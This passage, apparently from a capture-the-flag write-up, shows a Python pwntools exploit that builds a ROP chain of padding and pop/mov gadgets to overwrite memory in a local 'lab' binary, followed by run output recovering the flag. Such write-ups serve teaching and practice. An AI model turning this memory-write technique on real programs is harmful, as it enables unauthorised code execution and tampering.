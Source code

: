 ```python
pop = p32(base + pop_offset)
mov = p32(base + mov_offset)
#variables
labOwner = base + labOwner_offset
userid = base + userid_offset

def write(proc, write_loc, payload, return_addr):
    proc.recvuntil(': ')
    ropchain = padding
    ropchain += pop
    ropchain += p32(write_loc)
    ropchain += payload
    ropchain += mov
    ropchain += return_addr
    proc.sendline(ropchain)

write(p, labOwner, 'QHpi', lab)
write(p, labOwner+0x4, 'x\x00\x00\x00', lab)
write(p, userid, p32(0x1337), checkLabOwner)
log.success(p.recv())
p.close()
```
Now let's run the exploit:
```
$ python exploit.py
[+] Starting local process './lab': pid 69181
[*] Main is at: 0x565902d4
[+] PIE base: 0x5658f000
[+] Flag: flag{g4d6e7_1abor4t0ry_4634}
[*] Process './lab' stopped with exit code 0 (pid 69181)
```
Success! We got the flag!
